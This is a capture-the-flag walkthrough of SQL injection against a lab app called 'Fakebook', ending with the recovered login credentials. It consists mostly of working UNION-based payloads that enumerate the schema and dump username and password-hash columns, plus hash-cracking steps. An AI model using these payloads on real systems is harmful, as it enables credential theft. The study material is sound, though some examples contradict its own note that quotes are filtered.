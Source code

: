 # Fakebook SQL Injection Walkthrough

## Step 1: Test for Input Type
Use the following payload:
```sql
1 OR 1=1--
```

This tells us that the input type is an integer.
Observation: Quotes (') are filtered.

### Additional Example
To further confirm the input type, you can use the following payload:
```sql
1 AND 1=1--
```
This payload should also return a valid result, indicating that the input type is indeed an integer.

## Step 2: Check the Number of Output Columns
Use the following query:
```sql
1 UNION SELECT null FROM INFORMATION_SCHEMA.tables;-- -
```
Result: There is only one output column.

### Additional Example
To verify the number of output columns, you can use the following query:
```sql
1 UNION SELECT null, null FROM INFORMATION_SCHEMA.tables;-- -
```
If this query returns an error, it confirms that there is only one output column.

## Step 3: Find the Table Name
Use the following query:
```sql
1 UNION SELECT table_name FROM INFORMATION_SCHEMA.tables;-- -
```
Result: Two relevant tables are identified:
FAKEBOOK, USERS

### Additional Example
To list all table names, you can use the following query:
```sql
1 UNION SELECT table_name FROM INFORMATION_SCHEMA.tables WHERE table_schema='public';-- -
```
This query retrieves all table names in the public schema.

## Step 4: Retrieve Column Names of Relevant Tables
Use the following query:
```sql
1 UNION SELECT CONCAT(table_name, CHAR(44), column_name) FROM INFORMATION_SCHEMA.columns;-- -
```
### Explanation:
Since there is only one output column, we must concatenate the string to show both the table name and its columns.
CHAR(44) is the ASCII code for a comma (,), allowing better visual separation between table names and column names.

### Observations:
The FAKEBOOK table contains:
username, password
The USERS table does not have relevant columns.

### Additional Example
To retrieve column names for a specific table, you can use the following query:
```sql
1 UNION SELECT column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='FAKEBOOK';-- -
```
This query retrieves all column names for the FAKEBOOK table.

## Step 5: Retrieve All Usernames and Passwords
Use the following query:
```sql
1 UNION SELECT CONCAT(username, CHAR(44), password) FROM fakebook;-- -
```
Result: Retrieves a list of usernames and their hashed passwords from the FAKEBOOK table.

### Additional Example
To retrieve usernames and passwords separately, you can use the following queries:
```sql
1 UNION SELECT username FROM fakebook;-- -
1 UNION SELECT password FROM fakebook;-- -
```
These queries retrieve usernames and passwords separately from the FAKEBOOK table.

## Step 6: Decode the Password
The retrieved passwords are hashed.
Use a hash decoder to decrypt the password.
Decoded Password: adawong

### Additional Example
To decode the password using an online hash decoder, you can use websites like:
- [MD5 Hash Decoder](https://www.md5hashgenerator.com/)
- [Hash Toolkit](https://hashtoolkit.com/)

## Step 7: Login
Use the extracted username and the decoded password to log in.

# Solution

Username: LeonSKennedy
Password: adawong
MD5 Hashed Password: 662c8305f6ee26939b4dad53406e6228
